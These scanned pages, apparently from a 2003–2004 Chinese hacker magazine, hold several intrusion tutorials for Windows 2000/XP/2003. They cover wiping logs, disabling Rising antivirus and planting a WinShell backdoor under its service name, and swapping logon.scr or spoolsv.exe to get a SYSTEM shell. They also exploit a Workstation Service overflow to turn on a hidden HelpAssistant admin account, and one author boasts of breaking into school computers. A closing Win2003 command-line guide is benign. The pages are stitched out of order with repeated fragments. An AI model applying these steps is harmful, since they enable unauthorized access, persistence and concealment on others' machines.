桌面控制与终端连接看似一样，你可否知道，终端连接用的是多用户制，各个用户的操作相互独立，你想被对方发现都有些难呢！但桌面连接会和当前管理员共用一个桌面，你和对方都在抢标，标乱会乱跑，很容易被发现的。

下面我们要用 DameWare 的另一个工具——DameWare NT Utilities。打开主程序 DameWare NT Utilities，连接上去，在左边树根下选择 services 子 services 视 子项，然后在右窗口里选中名为“Terminal service”的服务，右击它，选择“Start Service”（图23）。当看到服务状态为 Runing 时，就可以连接了。


黑哥们常用的，用法也很简单，自己找一下吧！

对于特别钟爱 CMD 的朋友们，也很简单，只要 TELNET 上去，利用 Win2K 自带的无人职守安装工具 sysocmgr.exe 启动远程服务就行了，只需三行命令：

```
echo [components] > c:\mm
echo TSEnable = on >> c:\mm
sysocmgr /i:c:\winnt\inf\sysoc.inf /u:
c:\mm /q /r
```

等其重启后，便可进行终端连接，我建议用 mstsc.exe（图24）。《黑客X档案》官方论坛里也有个桌面连接页面，不错的！


# 后 记

经过这么多天的奋战，也要好好清理一下了。但到现在我才发现，原来这网管是多么的懒惰！其实这几个月以来的记录日志全部都在那里，删除远程机器的日志常见的有 cleaner.exe、clog.exe、clearlogs.exe、elsave.exe、logkiller.exe 等。

我们不管它，我都累了，就用 logkiller 吧！这也很全面的，只要执行命令 logkiller 即可！至此，一场没有硝烟的战争结束！

（警告：这只是一次善意测试，不要拿国内的主机做试验，稍不注意就会引火上身！另外，本文提到的以下软件光盘中有收录：X-Scan-v2.3、leapftp、rmtsvc.exe、动网网页木马生成器、bat2com.exe、com2exe.exe、魔鬼4号）

# 傻瓜黑客


又回到了系统登陆状态，干脆重启一次算了！想不到课间十分钟这么快又来了！呵呵！

终于等到系统出现了那个Logon.scr命令提示符窗口，输入Explorer.exe显示桌面及任务栏，看到系统在一个一个的加载程序，右下角的图标逐个显示，不经意间在瑞星的实时监控图标上点了一下右键，竟然出来一个菜单，点击“退出”，还真结束了这个程序。

再在别的程序上点右键就不起作用了，不知怎么回事？

在“运行”中打开一个CMD窗口，在其中输入net start命令查看启动的服务，其中有瑞星的两个服务：

```
Rising Process Communication Center
Rising Realtime Monitor Service
```

前面的那个服务是瑞星的系统通讯中心服务，所启动的程序是“系统盘符:\program files\rising\rav\ccenter.exe”，你问我怎么知道的，因为这些服务都在我本本上记载呢！

在CMD窗口用中DIR命令逐级显示文件目录，瑞星的这程序路径果真是“D:\program files\rising\rav\ccenter.exe”，执行如下命令：

```
D:\progra~1\rising\rav>ren ccenter.exe
ccenter1.exe
```

将ccenter.exe重命名为ccenter1.exe，没有回显错误，用DIR命令看了一下，果真把ccenter.exe重命名为ccenter1.exe。噢！知道了，朋友的D盘是FAT32分区格式的，对系统文件夹没有做只读保护。

下面要做的是请出一向被条毒软件追杀的Winshell后门程序，作什么？当然是装个后门程序，然后使用Telnet连接，看能不能得到系统权限，想不到吧！后门还有这样的作用。在我的U盘上有一个生成好的WinShell服务端程序server.exe，密码是123456，端口是默认的5277。幸亏刚才结束了瑞星的实时监控，不然又要不停地追杀这个程序。执行下面的命令，复制U盘中的server.exe到瑞星目录中，并改名为ccenter.exe。

```
D:\progra~1\rising\rav>copy g:\server.exe ccenter.exe
已复制 1个文件。
```

回到CMD窗口，试试能不能停止瑞星的这服务（rsccenter）：

近日，一位朋友将WinXP系统镜像还原，结果是：密码不正确，无法进入系统，只能停留在系统的登陆状态。因为这个镜像他两个月前做的，这期间系统的密码改了又改，所以记不清当初的密码了。于是他前来向我求助！

## 一、灵感乍现

好友相求，当然全力以赴。于是我捋起衣袖，先试输入法漏洞，没有找到。再试RPC溢出，结果是已经打了补丁。再来一招删除SAM文件，结果是错误提示，要求重启，失败啊……

一时间好友的眼神由信任变为怀疑，自己也感觉额头有点冒汗。

此时忽然想起《黑客X档案》2003年第6期中“驳《忘记WindowsXP登录口令的解决方法》”一文中提到的一个方法：用软盘启动，把%systemRoom%\system32目录中的logon.scr和cmd.exe备份，把cmd.exe改为logon.scr，然后重启到登陆界面，不动任何键或鼠标，只要不改默认设置，大约十分钟后就会出现开机屏保cmd.exe，这样就会拥有一切权限，好像还能运行Explorer程序。

## 二、尝试运作

OK！试试这种方法。需要说明的是，朋友的机子是双操作系统，C盘是Win98，D盘是WinXP。进入Win98系统，把D：\Windows\System32目录中的Logon.scr重命名为Logon1.scr，再把同目录中的Cmd.exe复制，粘贴在该目录中，然后将“复件Cmd.exe”重命名为Logon.scr。准备工作完成，可以重启系统进入XP了（如果不是双系统，就要用软盘启动，在DOS方式下使用命令更改这两个文件）。

启动系统进入XP的登陆窗口，这时千万不要动鼠标和键盘。在默认情况下，系统会因为长时间没有响应而启动登录屏保Logon.scr，这样就会启动刚才修改的Logon.scr化身Cmd.exe。OK！各位同学，现在是课间十分钟，请大家到户外活动活动，不要长时间在电脑前发呆！

也就是十分钟左右，屏幕上出现了Cmd.exe窗口，不过在程序的窗口中显示的是Logon.scr，窗口内显示的是：

```
Microsoft Windows XP [版本 5.1.2600]
<C> 版权所有 1985-2001 Microsoft Corp.

D:\WINDOWS\system32>
```

在窗口中输入Explorer.exe，看能否运行？随着硬盘的红灯一阵忽明忽暗后，桌面出来了，任务栏也出来了，哈哈，初战告捷。接下来试试权限，在Logon.scr窗口内输入net user jinmo jinmo /add命令，看到的是“发生系统错误5，拒绝访问”，看来权限不够。在桌面及任务栏上一阵乱点，毫无反应，还真如“孤独客2号”所写的那样，双击什么都没有用，右键也不管用。不过那个“运行”窗口能打开，在其中输入“cmd.exe”，还真打开了一个CMD窗口，不过输入别的程序名就不行，我本来想打开mspaint.exe（画图）来保存截的屏，但没有反应，无法图文并茂了！不好意思！

如何把这个权限提升上去呢？忽然想起了一个XP下的提升权限工具——Ptsec.exe，使用这个工具能使XP的普通用户打开一个具有超级权限的Cmd.exe窗口，在这个窗口中输入命令，就能将普通用户权限提升为超级用户，我仿佛看到了胜利的曙光……

什么？硬盘内没有Ptsec.exe，这么好的工具怎么能没有呢！幸亏我带了U盘（U盘在XP中是即插即用的），将盘符切换至U盘路径（G盘）：

```
D:\WINDOWS\system32>G:
G:\>
```

接下来输入提升权限命令：G：\>ptsec.exe /di
其中，“/di”是程序的参数，回车后却显示如下结果：

```
No any exploitable system thread for
choose to impersonate
No any exploitable system thread
```

犹如一盆冷水浇下！看来此路不通。情急之下，误关了Logon.scr窗口，“唰”的

黑客X档案2003 2004年合订本下册

# 傻瓜黑客

```
D:\WINDOWS\system32>net stop rsscenter
Rising Process Communication Center 服务已成功停止
```

居然停止了，看来所得到的权限比普通权限高，但又不是超级权限，不过在开始中显示的是“SYSTEM”用户名，这是什么权限的用户，困惑……

接着再将这个服务启动，这样就能启动刚才的后门程序ccenter.exe。

```
D:\WINDOWS\system32>net start rsscenter
Rising Process Communication Center 服务正在启动
Rising Process Communication Center 服务已经启动成功
```

注：如果权限不足，不能停止服务，那就重启机器，十分钟后再以同样的方式进入系统，一样也能加载这个服务。

在CMD窗口中输入netstat -an查看当前系统内端口打开的情况，在其中显示有

一个5277端口正在“Listening”，说明已经成功启动了Winshell程序（ccenter.exe）。在CMD窗口中输入Telnet.exe 127.0.0.1 5277，连接本机的5277端口。在Telnet连接窗口内输入连接密码123456。成功连接，窗口内显示如下：

```
WinShell v5.0 <C> 2002 janker.org

? for help
CMD>
```

输入字符“s”，得到了本机的shell：

```
CMD>s
Microsoft Windows XP [版本 5.1.2600]
<C> 版权所有 1985-2001 Microsoft Corp

D:\WINDOWS\system32>
D:\WINDOWS\system32>
```

用net user命令加一个用户，看能否成功？

```
D:\WINDOWS\system32>net user jinmo
```

```
jinmo /add
net user jinmo jinmo /add
命令成功完成。
```

## 三、终于成功

哇噻！成功了，那就再接再励，将该用户加入管理员组：net localgroup administrators jinmo /add成功将权限提升。

关闭Logon.scr窗口，回到系统登陆状态，用jinmo用户登陆，打开Cmd.exe，将朋友的用户重新设置密码：net user ccc jinmozhe

大功告成，可以走人了！

“不能走！”朋友一把拽住：“把你的后门消除掉！哈哈！你想以后控制我啊！”

想不到我的故意疏忽竟被他看破了！呵呵！没办法！那就清理吧！以下略去200字……”

# 追捕肉鸡的另类接触

灵鸣剑客

进入网吧硬盘，对于菜鸟来说是件难事，想不想用自己的网页进入被限制的硬盘？看了这篇文章后你就会知道，原来进入网吧硬盘不仅高手们可以，你也可以！

本菜鸟是一个爽快的人，就不给大家卖关子了。下面我说一下进入硬盘的步骤：


图1

1. 首先打开IE浏览器，申请一个属于自己的空间。要注意的是：大小不是问题，不支持FTP也没关系，最重要的是支持HTML

在线编辑（笔者建议在http://91i.net申请，支持多种在线编辑方式）。

文件：一共有6行

```
内容
<iframe src="C" width=150 height=300 style='rindex:1'></iframe>
<iframe src="D" width=150 height=300 style='rindex:1'></iframe>
<iframe src="E" width=150 height=300 style='rindex:1'></iframe>
```


图2

2. 别告诉我你不会申请啊！空间到手了，下面开始制作网页。首先选择HTML编辑方式编辑（图1）。然后在前边的小白框里添入自己想用的名，之后点击“OK”，看旁边是不是多了一项文件？呵呵！点击新文件后面那个编辑文本用的记事本就可以编辑了！

# 傻瓜黑客

3. 下面开始编辑，加入以下代码：

```
<html>
<body>
<iframe src = "C:\" width ="960" height = "880" style = "z-Index = 1"></iframe>
</body>
</html>
```

进入 C 盘的代码就写完了，如果还想进入别的盘，可把“<iframe src = "C:\" width ="960" height = "880" style = "z-Index = 1"></iframe>”复制下来，粘贴到上一个“</iframe>”后面，然后把“C:\”的“C”改成“D”或别的盘符（图 2）。

4. 代码加入完毕，点击下面的“修改”就可以了。新的网页就生成了，点击“连接”，看看自己作的网页吧！怎么样？硬盘的盘符是不是在你的网页里出现了（图 3）？
点击你想进的文件夹，会有一个提示，不管它，点击“是”就可以了。
好了，关于突破网吧禁止进入硬盘的方法就介绍到这里，如果大家有什么不明白的，可到《黑客 X 档案》论坛讨论。


图 3

# X 档案

对 DameWare 远程控制 Windows XP 的破解

唐敏

相信很多人都用过 DameWare 或者类似的软件，这类软件最大的特点就是功能超强、安装方便，而且绝对不会被杀毒软件查杀。笔者使用它快 2 年了，从来就没有出过问题（《黑客 X 档案》2003年 2 期有 DameWare 的详细介绍）。
但 DameWare 有个致命缺点，那就是要依赖 IPC$ 连接，而且登录帐号必须是管理员。

Windows 2000 时代要满足这个条件很容易，可到了 Windows XP 时代，要满足这个条件就不容易了。因为默认安装的 XP 所有来宾全部都只有 Guest 权限，即使你是 Administrator 的来宾账号也不行。同样地，计算机远程管理和注册表远程管理这些在 Windows 2000 下轻而易举就能办到的事情，在 XP 下却让很多人束手无策。归根结底，这是由 XP 的安全策略所引起的，下面笔者就以事例来向大家介绍一下怎样简单、方便的修改这些策略。

## 一、原理

XP 的本地安全策略里有一项“网络访问：本地账户的共享和安全模式”，缺省情况下是“仅来宾 - 本地用户以来宾身份验证”。所以即使使用管理员帐号 / 口令访问缺省安装 XP 的 IPC$，始终是 Guest 权限。把它改成“经典 - 本地用户以自己的身份验证”就可以了（具体位置在：控制面板→管理工具→本地安全策略→安全选项→网络访问：本地账户的共享和安全模式→将“仅来宾”改成“经典”）。如图 1。

那有没有办法在命令的情况下修改呢？答案是肯定的。这里我向大家介绍一下怎么在命令下修改，我想这也是大家最关心的！
在注册表中的 HKLMSYSTEM\currentcontolset\control\lsa\下，有个名为“forceguest”的键，将 1 改为 0 即可。同时，还要改动 HKLMSYSTEM\currentcontolset001\control\lsa\和 HKLMSYSTEM\currentcontolset002\control\lsa\下名为“forceguest”的键，将 1 改为 0。如果有 HKLM\system\currentcontolset003\control\lsa\，也一并改了。

怎么知道改动这里呢？我们可通过 RegShot 在自己的电脑上来比较，RegShot 是款操作方便的比较注册表变化的利器。我们先选择“仅来宾 - 本地用户以来宾身份验证”，接着扫描一下注册表；然后选择“经典 - 本地用户以自己的身份验证”，再扫描一下注册表。通过对比，我们会发现注册表有三处变化，如图 2。


图 2


图 1

为方便修改，我们把下面这段内容保存成为 a.reg：

黑客 X 档案 2003 2007 年合订本（下）

4


# 傻瓜黑客

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa]
"forceguest"=dword:00000000

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet001\Control\Lsa]
"forceguest"=dword:00000000

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet002\Control\Lsa]
"forceguest"=dword:00000000

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet003\Control\Lsa]
"forceguest"=dword:00000000

（注意：Windows 2003默认就是经典）
```

## 二、一次完整事例

Windows Workstation Service远程溢出漏洞比较不错，时下有些电脑还没打补丁，你可去http://down.77169.com/下载X-scan2.3n的插件版，里面包含了最新几个漏洞的插件，也可用它扫出一堆存在该漏洞的主机。
随便找一台（我们这里只讨论XP），溢出后得到一个system权限的shell（图3）。


然后tftp -i 自己的ip get a.reg上去，再输入regedit -s a.reg，一定要加“-s”这个参数！到目前为止，只成功了一半，为什么这么说呢？我们现在只是更改了XP的策略，可以使具有administrator权限的用户连接它，但我们不具有该权限的账号！现在有3个思路：
- 思路1：新添加一个管理员账号；
- 思路2：得到对方已有管理员账号的密码；
- 思路3：提升已有权限账号的权限。

思路1明显走不通。用过XP的都知道，一旦添加新用户，在XP的开机登录面板里会出现新的账号，对方重新启动电脑后，立马就会发现。
思路2也不可行，有个软件findpass可在Win2000下轻易得到对方的管理员密码，而不需要对方重启电脑，但对XP却不行。gina可获得XP管理员的登录密码，但它也有缺陷，即不能当时得到密码，密码只能保存到对方系统盘的Windows\system32\WinEggDrop.Dat（图4），同时对方的登陆面板会变成Windows 2000的模式（图5）。
如果对方稍微有点警觉性，都会意识到出了问题！
思路3可以走通，XP默认安装4个用户：“Administrator”、“Guest”、“HelpAssistant”、“SUPPORT_388945a0”，后面3个都是低权限的账号。但这里我们只能提升“HelpAssistant”的权限！为什么呢？同样也是由XP的安全策略所决定的。
在XP的本地安全策略里，有一项“拒绝从网络访问这台计算机”，其中拒绝了两个用户登录：“Guest”和“SUPPORT_388945a0”（具体位置在：控制面板→管理工具→本地安全策略→用户权限分配→拒绝从网络访问这台计算机）。如图6。


图 8


图 9


图 10


图 11

本来我也想通过修改注册表来达到除去这个限制的目的，可我发现这个限制好像比较复杂，不仅牵涉到注册表，还跟系统盘下的 Windows\security 有关。有兴趣的话，大家可以自己研究！

具体提升权限的步骤如下：

```
net user HelpAssistant /active:y
net localgroup administrators HelpAssistant /add
net user HelpAssistant 自己设定的密码
```

同样地，为了方便操作，我们可把它们写成一个批处理文件(b.bat) 上传运行。

这样，我们就大大简化了操作程序。现在我们已经大功告成了！

## 三、一点经验

最后，我把自己总结的入侵无数 XP 系统的经验告诉大家。

从我入侵的 XP 来看，不使用默认 administrator 帐号的大概有 80%（该数据来自我对学校 1800 台计算机的抽样调查！有的就算登录了也是刚装完系统时登录了一次，大家可用 net user adminis-trator 来判断)。如图 7、图 8。

而且，无论用 HelpAssistant 还是 administrator，在 XP 的登录面板和“用户账号”里均不会显示（图 9），所以有很大的隐蔽性！大家完全可以放心使用！

## 四、总结

我还是总结一下入侵步骤吧！先得到对方具有系统权限的 shell，然后上传 a.reg 和 b.bat，并运行，就这么多！现在我们就可以用 DameWare 连接了（图 10、图 11)！此时的心情只能用一个字形容——爽！

（本文提到的 DameWare、RegShot 光盘中有收录！）

# 傻瓜黑客

# 破解Windows XP/Server 2003密码 完美解决方法

孤独客二号

| 受影响系统版本 |
| --- |
| Windows Server 2003 (中文版) |
| Windows XP (英文版) With SP1 |
| Windows XP (中文版) With SP1 |
| Windows XP (英文版) |
| Windows XP (中文版) |
| Windows 2000 Professional (中文版) With SP4 |
| Windows 2000 Professional (中文版) With SP3 |
| Windows 2000 Professional (中文版) |
| Windows 2000 Server (中文版) |

因笔者手中系统版本有限，且时间有限，不能对所有NT架构的Windows系统进行一一验证，还请各位有能力和有条件的高手进行测试！

## 原理简述

以上系统的Print Spooler Service（即Loads files to memory for later printing，中文意思是：将文件加载到内存以便随后打印）在系统默认状态是开启的，其所依赖的后台文件为\system32\spoolsv.exe，而本地用户在另一个系统下（如DOS）可对其随意改动，但在系统启动时并不对其进行完整性检查，也不是系统启动时必需的系统文件，因而如果本地用户在另一系统下对其进行替换，比如用一个telnet服务程序或系统后门对spoolsv.exe进行替换，那么，这些telnet服务程序或后门程序就会继承原来Print Spooler Service的系统权限，从而本地用户可以利用这些telnet服务程序或后门程序执行任意命令。再则，如果系统使用的磁盘格式为NTFS，则可在DOS下专门访问NTFS分区工具NTFSDOS Professional来对spoolsv.exe进行替换，但这还不能完全实现本地的权限提升，但已经可以从网络实现对系统的完全控制，可以执行任何命令。此时可以通过cmd.exe对本地 的logon.scr文件进行替换，这样在出现系统登录画面后，不要动鼠标或键盘，大约十分钟，就会有一个具有极低权限的命令行shell。此时，执行对后门程序或telnet程序的本地连接，就可获得系统权限，此时可以执行任何命令。但经笔者测试，可能有的机器在长时间也不会出现屏保，即得不到cmd.exe替换得到的shell，这样就只能通过另一个电脑来远程登录后门服务，获取shell。这样，得到的权限仍然是系统权限，可以执行任何命令！

## 后门剖析

NT架构的Windows系统默认启动的服务所依赖的程序有dllhost.exe、lsass.exe、services.exe、svchost.exe，再一个就是我们现所利用的spoolsv.exe。
一看就知道dllhost.exe和dll有关，替换掉的后果可想而知；lsass.exe和系统登录有关，我在《黑客X档案》2003第7期发表的文章中提到过如果把XP的SAM文件删除掉，lsass.exe文件在登录时会提示出错，因而它也是不可替换的；还有就是services.exe文件，一看给人的想法就是和服务有关，我试了一下，替换掉的结果是不会出现登录界面，而是黑屏，什么都没有，看样子行不通；再则就是svchost.exe了，这个是NT架构服务中最重要的文件，自启动的80%的服务都是依赖这个程序，因此替换它是根本行不的；最后就锁定在这个spoolsv.exe上，它所依赖的服务Print Spooler Service默认是Automatic（自启动），而它并不是系统启动必须的（我一般安装2K/XP后都常常会停止这个服务的，不过一般人都是按默认配置，还是很具有一般性的）。替换掉系统服务后，用于替换的这个程序就具有了系统权限，但如果你想和这个程序通信，就必须要有一个shell，无论是图形界面还是通过命令行界面，这在第7期那篇文章中提到过：用cmd.exe替换logon.scr就能得到一个超低权限的cmd.exe构成的shell。这样，通过这个shell与本地后门服务进行通信，就可轻松获得系统权限，从而可以执行任意指令。

## 漏洞测试

### 准备工作

winshell：一个telnet服务程序，这里当作后门程序来用。当然，你用其它的后门程序也可以。
NTFSDOS Professional：如果当前系统所在盘为NTFS格式则利用它，如果不是，就用不到了。

### 实现过程

用DOS启动盘启动到DOS状态，转移到系统目录d:\windows\system32下，把spoolsv.exe更名为spoolsv2.exe，并把logon.scr更名为logon2.scr，测试所用的是一个telnet服务程序Winshell，把Winshell生成的服务器程序server.exe更名为spoolsv.exe，并把cmd.exe拷贝为logon.scr，然后取出DOS启动盘，执行RESTART命令重启，以上所有命令如下：

```cmd
c:\windows\system32 ren spoolsv.exe spoolsv2.exe
c:\windows\system32 ren logon.scr logon2.scr
c:\windows\system32 copy c:\winshell\server.exe spoolsv.exe
c:\windows\system32 copy cmd.exe logon.scr
c:\windows\system32 restart
```

（注：以上命令为Windows 2000 Professional系统在DOS下的操作）

重启以后，直接通过另一台电脑用telnet 211.x.x.x 5277，或者重启到登录界面不动鼠标和键盘。大约十分钟以后会出现cmd.exe所替换掉的屏保，此时同样执行telnet 211.x.x.x 5277（211.x.x.x是本次试验的机器IP，5277这里是Winshell程序默认的服务端口号）。然后，此时可对管理员的密码进行重新设置，所用命令如下：

# 傻瓜黑客

```
c:\> telnet 211.x.x.x x 5277
password:58801353 (在winshell中我设的密码为58801353)
c:\>shell
c:\> net user administrator 58801353
c:\> exit
```

这样就把管理员的密码改为了58801353，或者执行：

```
c:\>net user tavor 58801353 /add
c:\>net localgroup administrators tavor /add
```

这样就成功新建了一个名为tavor、密码为58801353的用户，并成功把他添加到了管理员组中。此时退出telnet登录，并退出屏保cmd.exe，这样就返回到原先的登录界面。现在就可用刚才新建的用户或新设的密码进行登录，对了，别忘了改回被替换的文件，以免你设的后门程序再被别人利用。


图1 Windows Server 2003在DOS下的操作

保了，可等了N长时间还是没有出现，正如我上面说的，可能长时间也不出现登录屏保，那就先用另一台机子试验吧！如图2。


图2 用telnet远程登录winshell后门的Windows Server 2003主机

这里的211.*.*.*P是装有Windows Server 2003的主机，5277是我用Winshell服务程序的端口。接着看图3。


图3 telnet上Server 2003主机后建用户改密码的全过程


图4 刚开始的Windows XP的登录界面

这里可看到，显示的Windows系统版本为5.2.37091，表明为2003 Server版（XP的版本为5.01.***，2000的版本为5.00.***）。成功登录，并成功设置了管理员帐号的密码，也新建了一个名叫tavor的用户，并将其成功提升为管理员，我立马高兴得不行了（这种成就感真是没说的，从前一直以为XP和2003在本地固若金汤，现在却这样被我轻易进去）。然后跑回自己的机器，还是没看见出现登录“屏保”，等不急地就用新设的管理员密码登录进去（因为新建用户虽是管理员，却没设密码，对没密码的用户只能本地命令行登录），最后成功进入！

在却这样被我轻易进去）。然后跑回自己的机器，还是没看见出现登录“屏保”，等不急地就用新设的管理员密码登录进去（因为新建用户虽是管理员，却没设密码，对没密码的用户只能本地命令行登录），最后成功进入！


图5 在本地“屏保”下telnet上本地Windows XP并设置密码，添加用户，提升权限


图6 退出屏保后出现的用户登录界面，出现了新用户tavor


图7 成功登录后察看新建用户的tavor的权限

这里2003都成功了，那么XP和2000呢？我回到DOS下，把2003被改的文件全改回来，并把Windows XP的文件给替换了，最后重启到登录界面（图4）。过了大约10分钟左右，出现图5。成功建立后，退出“屏保”，现在的登录界面如图6。

## 实战解析

我的电脑放假前一直装着两个系统：Win XP with SP1英文版和Win Server 2003 Enterprise中文版。因为XP出了点问题，不得不进行系统重装，但重装XP会造成系统盘根目录一些重要启动文件更改或丢失，Server 2003就因此再也进不去了。我回来后，就用Server 2003的盘修复了一下，不一会2003就出现了登录界面。我突然想起，完了，密码给忘了！微软太注意服务器的安全性了，默认要求管理员的密码很复杂，好像要求至少8位，其中还必须包括大写字母、小写字母、数字、特殊符号。只记得当时设了有123、a、A，还有！、@、# 等几个特殊字符，但如何组合的却一点也记不住了。现在可真的FAINT了，但想到可以替换掉服务程序，并通过替换到logon.scr来获取shell的方法可轻松拿到系统权限，差点高兴的叫起来（因为我的2003是装过以后就没用过的，一切都是默认配置，而且没有装过任何一个程序，只能从系统默认的服务入手了。

现在只能先回到XP下再说，看看有没有默认启动的服务。让我更晕的是，2003的登录界面根本没有重启选项（为防止非管理员对服务器的恶意关闭和重启），只能来个冷重启了（我的爱机啊，我的心在滴血，555...）。重启到XP，查看了所有默认启动的服务，找到每个服务所依赖的后台程序，并对每个进行试验和排查后，最后就锁定在spoolsv.exe。启动到DOS，替换相应的文件，其在DOS下的操作过程如图1。

重启到登录界面，现在就等着出现屏

# 傻瓜黑客

用新建的用户登录进去后，查看一下新建用户的权限，如图7。


目前还没有官方发布的解决方法。
临时解决方法：如果你不是经常使用或根本用不着打印，那么就到控制面板里

毫不客气地停掉它，并设其启动方式为Manual或Disabled。再者就是使用NTFS磁盘格式，给本地提升设置一些障碍。

因为XP和Server 2003一直没有有效的在忘记管理员密码的情况下进入系统

的方法，因此写本文的主要目的主要用于帮助广大被黑主机(已丢管理员密码)或因密码设置过于复杂而忘记了的管理员们。

53

# Win2003
## 新的命令行工具尝鲜

动鲨

Windows Server 2003是微软重点推出的一个专门用于服务器的版本，号称有更高的可靠性、生产性、连通性和安全性。我试用了一段时间后，发现的确有不少的安全性改进，同时，CMD命令行的易用性也得到了很大提高，在微软的自我介绍中甚至说能和Linux的命令行功能相比（不过你信么，呵呵）。命令行工具黑客使用得较多，古人说：工欲善其事，必先利其器，今天我就给大家说说Windows Server 2003新增的几款比较有价值的命令行工具及其参数的使用。
首先要说明的是，Windows Server 2003中所有的命令行工具都支持以下几个远程参数。我以标准参数为代表，在这里统一说一下。

- 1. `/S IP`（连接到远程服务器获取信息）。
- 2. `/U USER`（以指定的用户运行）；`/P PASSWORD`（为提供用户指定密码）。

以上参数的示例我将用于第一个示例里，其余示例请读者自行参考。同时为了节约篇幅，示例中用于演示的返回信息只保留了有代表性的一部分，请大家注意！

### whoami

命令简介：此命令为当前登录的用户返回域或计算机名称、用户名、组名称、登录标识及用户特权（注意不是权利），以后我们就不用自带whoami这个工具了。
参数：标准参数
`/USER` 显示当前登录用户的用户名和安全SID
`/GROUPS` 显示当前登录用户的用户名、所属的用户组、SID标识以及其他的组
`/PRIV` 显示当前用户的特权。

### 使用示例：

1. 键入命令`whoami /user`，返回如下信息：

```
15-347585469-3639
812688-500
```

| | | | |
| --- | --- | --- | --- |
| BUILTIN\Administrators | 别名 | S-1-5-32-544 | 必需的组, 启用于默认, 启用的组, 组的所有者 |
| | | S-1-5-32-545 | 必需的组, 启用于默认, 启用的组 |
| NT AUTHORITY\INTERACTIVE | 已知组 | S-1-5-4 | 必需的组, 启用于默认, 启用的组 |

可以看出当前的计算机名和用户以及用户对应的SID。
2. 键入命令`whoami /groups`，返回如下信息：
可以看出当前所有的组，以及当前登录的用户所属的组。
3. 键入命令`whoami /priv`，返回如下信息：

| | | |
| --- | --- | --- |
| SeChangeNotifyPrivilege | 跳过遍历检查 | 已启用 |
| SeSecurityPrivilege | 管理审核和安全日志 | 已禁用 |
| SeBackupPrivilege | 备份文件和目录 | 已禁用 |

可以看到当前登录用户的特权（注意不是权限），我用的是管理员，有两项特权，返回结果只保留了前3条。

统以及获取系统的基本配置信息，使用此命令可方便的获得重要的系统信息。
参数：标准参数

### 使用示例：

- 1. 直接键入systeminfo命令，将获得本地系统的配置信息。包括处理器、BIOS版本、系统目录、Windows目录、区域、域、已安装的修补程序、网卡及IP地址等。
- 2. 使用远程参数。`systeminfo /s 61.182.93.81`就是获得该IP地址的服务器配置信息，一般来说，`/s`参数和`/u`、`/p`参数一起使用，例如`systeminfo /s 61.182.93.81 /u "administrator"/p "123456"`，即以用户为administrator密码为123456的身份获得远程服务器的配置信息。

黑器X档案2003 2004年合订本下册1


### 三、tasklist

命令简介：用于显示当前运行在本地和远程计算机上的进程、服务和进程标识符（PID）。使用后感觉比 PSTOOLS 工具还爽！以后 PSLIST 和 PSKILL 也不用上传了。

参数：标准参数
/M [module] 列出当前哪些进程加载了指定的 DLL 文件，如果 module 参数没有指定，那么会枚举每个进程所加载的 DLL，支持通配符的使用，个人认为似乎可用来检测那些 DLL 注入木马。
/SVC 显示每个进程对应的服务。

### 使用示例：

1. 键入无参数命令 tasklist，返回如下信息，列出进程信息、和我们用任务管理器的内容是一样的。一目了然！

```
Image Name                   PID Session Name     Session#    Mem Usage
========================= ====== ================ ======== ============
System Idle Process            0 Console                 0         56 K
System                         4 Console                 0        236 K
smss.exe                     308 Console                 0        388 K
csrss.exe                    364 Console                 0      2,144 K
```

2. 键入命令 tasklist /svc 将列出进程对应的服务，返回如下信息：

```
Image Name                   PID Services
========================= ====== =============================================
System Idle Process            0 N/A
System                         4 N/A
winlogon.exe                 388 N/A
services.exe                 432 Eventlog, PlugPlay
lsass.exe                    444 PolicyAgent, ProtectedStorage, SamSs
svchost.exe                  636 RpcSs
```

很爽吧！每个进程对应的服务全出来了！

3. 键入命令 tasklist /m，用于显示各个进程加载的 DLL，返回如下信息：

```
Image Name                   PID Modules
========================= ====== =============================================
System Idle Process            0 N/A
System                         4 N/A
smss.exe                     308 ntdll.dll
csrss.exe                    364 ntdll.dll, CSRSRV.dll, basesrv.dll,
                                   winsrv.dll, GDI32.dll, USER32.dll,
                                   ADVAPI32.dll, kernel32.dll
```

我们可清晰的看到 csrss.exe 加载了哪些 DLL 文件，这有助于我们了解 Windows 系统，还可检测 DLL 型木马。

如果想查找特定的 DLL 文件被哪些进程加载，键入命令 tasklist /m ntdll* 则将列出加载了文件名中包含 ntdll 的 DLL 文件的所有进程，返回信息如下：

```
Image Name                   PID Modules
========================= ====== =============================================
smss.exe                     308 ntdll.dll
csrss.exe                    364 ntdll.dll
winlogon.exe                 388 ntdll.dll
```

总结，不仅很方便，而且功能比 Windows 界面下的资源管理器要强大得多！估计 PSTOOLS 要破产了。

### 四、taskkill

命令简介：有了 tasklist 就不能少了它，此命令用于终止一个或多个任务和进程。

参数：标准参数
/PID 指定要终止进程的 PID，可以用 tasklist 命令获得。
/IM 指定要终止的进程的进程名，可用通配符 “*” 来终止多个进程。
/F 指定强制终止进程。
/T 终止指定的进程以及它所启动的子进程。

> 注意：此命令必须要参数。

### 使用示例：

1. 键入命令 taskkill /im notepad.exe，即结束进程名为 notepad.exe 的进程。
键入命令 taskkill /im notepad.exe /f /t，即强制结束进程 notepad.exe，并且结束此进程所启动的子进程。

2. 键入命令 taskkill /pid 388，即结束 PID 为 388 的进程，你可以从上面的 tasklist 示例中查出其对应的是 winlogon.exe 进程。

### 五、where

命令简介：查找并显示满足给定参数的所有文件，默认情况下是搜索当前的目录和系统目录。这个命令的查找速度还是不错的，个人感觉比 Windows 下的搜索快多了，可惜的是不支持时间搜索等特殊条件搜索。

参数：标准参数
/R DIR 从指定的目录进行递归性搜索（既搜索其子文件夹）。
/F 在默认的当前目录和系统搜索并显示条件匹配的文件。
/T 显示匹配文件的详细属性。
同时该命令支持通配符和多文件条件同时搜索。

### 使用示例：

1. 我要搜索 c:\winnt 目录下一个名为 hh.exe 的文件，键入如下命令：
where c:\winnt:hh.exe
这类搜索格式为：where 目录:搜索的文件名，注意目录和文件名之间要有冒号隔开。
返回信息 c:\winnt\hh.exe，说明找到了，否则返回信息提示没有找到。

我要搜索 c:\winnt 和 f:\windows 两个目录下文件名包含 nt 的文件，键入命令 where "c:\winnt;f:\windows;nt*"。
要注意的是，我们要把搜索条件加上引号，同时并列的条件 c:\winnt 和 c:\windows 之间要加冒号，且这些搜索不包括子文件夹。返回信息如下：

```
c:\WINNT\control.ini
c:\WINNT\frontpg.ini
